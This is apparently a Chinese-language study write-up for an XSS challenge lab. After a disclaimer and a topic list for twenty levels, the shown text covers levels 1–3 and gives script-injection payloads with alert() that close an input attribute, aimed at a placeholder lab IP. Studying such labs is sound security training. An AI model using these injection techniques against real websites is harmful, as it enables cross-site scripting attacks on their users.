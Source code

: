 # XSS 挑战通关笔记

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**知识点**
- 无过滤 XSS (level 1)
- 各种难度的构造闭合 XSS (level 2、3、4、5、6)
- 各种难度的绕过过滤 XSS (level 2、3、4、5、6)
- 双写拼接 XSS (level 7)
- 实体编码+HTML 编码 XSS (level 8、9)
- input 中的 XSS (level 10)
- HTTP headers 头中的 XSS (level 11、12、13)
- exif XSS (level 14)
- angularjs XSS (level 15)
- URL 编码 XSS (level 16)
- embed 标签的 XSS (level 17、18)
- Flash XSS (level 19、20)

---

# level 1

没什么过滤,直接使用 `<script>alert(123)</script>` 即可

payload: `http://<靶机IP>/level1.php?keyword=test<script>alert(123)</script>`

---

# level 2

![images](../../../../assets/img/安全/实验/Misc/XSS/1.png)

使用 `">` 构造输入框的闭合

payload: `test"><script>alert(123)</script>`

---

# level 3

使用 `'` 可以闭合

![images](../../../../assets/img/安全/实验/Misc/XSS/2.png)
